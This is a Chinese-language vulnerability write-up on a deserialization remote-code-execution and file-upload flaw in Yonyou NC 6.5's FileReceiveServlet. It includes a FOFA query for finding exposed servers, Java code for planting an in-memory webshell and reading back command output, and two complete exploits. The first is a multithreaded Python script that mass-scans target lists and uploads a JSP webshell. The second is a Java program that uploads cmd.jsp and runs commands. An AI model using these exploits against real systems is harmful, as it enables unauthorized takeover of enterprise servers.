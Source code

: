 # 用友 NC FileReceiveServlet 反序列化RCE漏洞

## 漏洞描述

用友NC 存在反序列化 RCE漏洞，攻击者可利用控制服务器

## 漏洞影响

```
用友NC 6.5
```

## FOFA

```
app="用友-UFIDA-NC"
```

## 漏洞复现

首先从任意文件上传说起

任意文件上传分析代码在`servlet.FileReceiveServlet`。在这里我们可以看到，从请求中读取流，然后转换为map类型并读取上传文件的路径。然后再读取待上传的文件。

![yongyou-5-1](./images/yongyou-5-1.png)

而网上很多poc，大多都是基于此漏洞，利用反序列化上传一个文件到服务器。

这也就是去年的那个任意文件上传的反序列化漏洞。但是，但是，这个漏洞本质是一个反序列化漏洞。而且某C的classpath中，也存在apache commonscollections库，我们可以利用这个库，直接执行命令或者内存马。岂不是比任意文件上传舒服多了。

**内存马**

老样子，在反序列化中想执行任意代码，一般都依靠xalan这个库。这次也不例外。

植入内存马，关键在于我们怎样找到context，只有找到context，我们才可以添加filter。好在某c中，我们只需要通过下面的代码既可以获取当前context，不需要从tomcat中获取context

```java
 Object obj = 改动Locator.getInstance().lookup("ServletContext");
        Field contextField = obj.getClass().getDeclaredField("context");
        contextField.setAccessible(true);
        obj = contextField.get(obj);
        Field contextField1 = obj.getClass().getDeclaredField("context");
        contextField1.setAccessible(true);
        addFitlertoTomcat(contextField1.get(obj));
```

剩下的就是常规操作，可以看我之前的内存马模型，基本不需要很大的改动即可完美适配。

![yongyou-5-2](./images/yongyou-5-2.png)

**回显**

我们只需要找到这样一个servlet，即存在反序列化的readObject，又将错误信息写入到response中

不难看出 uploadServlet 就很满足这个需求。

```plain
out = new ObjectOutputStream(output);
            in = new ObjectInputStream(request.getInputStream());
            String dsName = (String)in.readObject();
            }
        } catch (Exception var14) {
            var14.printStackTrace();
            if (out == null) {
                throw new ServletException(var14);
            }

            out.writeObject(var14);
```

如果出错的话，将错误信息通过序列化写入到response中。好处在于，我们不需要麻烦的去找tomcat的response对象。

所以，我们将反序列化的payload，发送给uploadServlet即可。然后我们只需要读取响应，即可拿到服务器命令执行的回显结果。客户端代码可以这样写

```java
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(r));
        Exception e = (Exception) objectInputStream.readObject();
        Object obj = e.getCause();
        Field targetF = obj.getClass().getDeclaredField("target");
        targetF.setAccessible(true);
        obj = targetF.get(obj);
        Field msgF = obj.getClass().getSuperclass().getDeclaredField("detailMessage");
        msgF.setAccessible(true);
        String msg = msgF.get(obj).toString();
        System.out.println(msg);
```

### 文件上传EXP

python exp：

```
import requests
import threadpool
import urllib3
import sys
import argparse

urllib3.disable_warnings()
proxies = {'http': 'http://localhost:8080', 'https': 'http://localhost:8080'}
header = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "https://google.com",
}

def multithreading(funcname, filename="url.txt", pools=5):
    works = []
    with open(filename, "r") as f:
        for i in f:
            func_params = [i.rstrip("\n")]
            works.append((func_params, None))
    pool = threadpool.ThreadPool(pools)
    reqs = threadpool.makeRequests(funcname, works)
    [pool.putRequest(req) for req in reqs]
    pool.wait()

def wirte_targets(vurl, filename):
    with open(filename, "a+") as f:
        f.write(vurl + "\n")
        return vurl
    
def exp(u):
    uploadHeader = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Content-Type": "multipart/form-data;",
        "Referer": "https://google.com"
    }
    uploadData = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x02\x74\x00\x09\x46\x49\x4c\x45\x5f\x4e\x41\x4d\x45\x74\x00\x09\x74\x30\x30\x6c\x73\x2e\x6a\x73\x70\x74\x00\x10\x54\x41\x52\x47\x45\x54\x5f\x46\x49\x4c\x45\x5f\x50\x41\x54\x48\x74\x00\x10\x2e\x2f\x77\x65\x62\x61\x70\x70\x73\x2f\x6e\x63\x5f\x77\x65\x62\x78"
    shellFlag="t0test0ls"
    uploadData+=shellFlag
    try:
        req1 = requests.post(u + "/servlet/FileReceiveServlet", headers=uploadHeader, verify=False, data=uploadData, timeout=25)
        if req1.status_code == 200 :
            req3=requests.get(u+"/t00ls.jsp",headers=header, verify=False, timeout=25)

            if  req3.text.index(shellFlag)>=0:
                printFlag = "[Getshell]" + u+"/t00ls.jsp"  + "\n"
                print (printFlag)
                wirte_targets(printFlag, "vuln.txt")
    except :
        pass
    #print(printFlag, end="")


if __name__ == "__main__":
    if (len(sys.argv)) < 2:
        print('useage : python' +str(sys.argv[0]) + ' -h')
    else:
        parser =argparse.ArgumentParser()
        parser.description ='YONYOU UC 6.5 FILE UPLOAD!'
        parser.add_argument('-u',help="url -> example http://127.0.0.1",type=str,dest='check_url')
        parser.add_argument('-r',help="url list to file",type=str,dest='check_file')
        args =parser.parse_args()
        if args.check_url:
            exp(args.check_url)
        
        if(args.check_file):
            multithreading(exp, args.check_file, 8) 
```

java exp：

```
import java.io.*;
import java.util.HashMap;
import java.util.Map;

public class App {
    public static void main(String[] args) throws Exception {
        String url="http://192.168.40.222";
        Map<String, Object> metaInfo=new HashMap<String, Object>();
        metaInfo.put("TARGET_FILE_PATH","webapps/nc_web");
        metaInfo.put("FILE_NAME","cmd.jsp");
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(metaInfo);
        InputStream in=App.class.getResourceAsStream("cmd.jsp");
        byte[] buf=new byte[1024];
        int len=0;
        while ((len=in.read(buf))!=-1){
            baos.write(buf,0,len);
        }
        HttpClient.post(url+"/servlet/FileReceiveServlet",baos.toByteArray());
        HttpResult result=HttpClient.get(url+"/cmd.jsp?cmd=echo+aaaaaa");
        if(result.getData().contains("aaaaaa")){
            System.out.println("shell路径:"+url+"/cmd.jsp?cmd=whoami");
        }else{
            System.out.println("上传shell失败或者漏洞不存在");
        }
    }
}
```

## 参考文章

https://mp.weixin.qq.com/s/IdXYbjNVGVIasuwQH48Q1w